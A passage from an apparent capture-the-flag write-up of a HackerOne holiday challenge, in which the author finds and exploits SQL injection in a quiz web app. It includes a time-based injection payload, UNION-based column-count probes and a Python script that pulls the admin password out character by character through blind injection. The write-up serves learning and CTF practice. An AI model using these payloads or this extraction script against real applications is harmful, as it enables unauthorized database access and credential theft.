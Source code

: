 The message about the number of players with the same name was quite revealing here. It told me that the quiz was *stateful*. It remembered the names of all players that filled it out. This meant there was likely a database backing this application. I immediately started thinking along the lines of a potential SQL injection vulnerability.

I went back to the beginning and set the `name` field to `' OR sleep(5)='`. Proceeding into the rest of the quiz resulted in 5 second delays, meaning an SQL injection vulnerability was indeed present. The final page included the message `There is 1195892 other player(s) with the same name as you!` which suggests my attack was at least working on the query to calculate the number of players with a similar name.

I started the process of working out what tables/columns existed and what data I could exfiltrate.

First of all I worked out the number of columns being returned in the query by trying the following:

| Name                             | # of players |
|----------------------------------|--------------|
| `Jfjrir' union select 1;/*`         | 0            |
| `Jfjrir' union select 1,2;/*`       | 0            |
| `Jfjrir' union select 1,2,3;/*`     | 0            |
| `Jfjrir' union select 1,2,3,4;/*`   | 1            |

4 columns then! Normally at this point I'd start pulling data from `information_schema.tables`, but before resorting to this I tested to see if I could guess the names of some existing tables. I got lucky and ` Jfjrir' union select 1,2,3,4 from admin;/*` returned a single row (player).

After tweaking the query a few times I figured out that a user with the `username` of `admin` existed in the table - at this point I started writing a script to pull out the `admin` password:

```python
#!/usr/bin/env python3
import requests

url='https://hackyholidays.h1ctf.com/evil-quiz'
cookies={'session': '4fbc0cc824c9ee373d677e1840288aaf'}
alphabet = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890-=!"£$%^&*()_+[];#,./{}:@~<>?'

def attack(password):
    index=len(password)+1
    for letter in alphabet:
        data={'name': "Jfjrir' union select 1,2,3,4 from admin where username ='admin' and ord(substr(password, %d, 1))='%d" % (index, ord(letter))}
        r = requests.post(url, cookies=cookies, data=data)
        r = requests.get(url + '/score', cookies=cookies)
        if 'There is 1 other' in r.text:
            return password + letter
    return password

password=''
while True:
    np=attack(password)
    if np == password:
        print("Password found: '%s'" % (password))
        break
    password=np

```
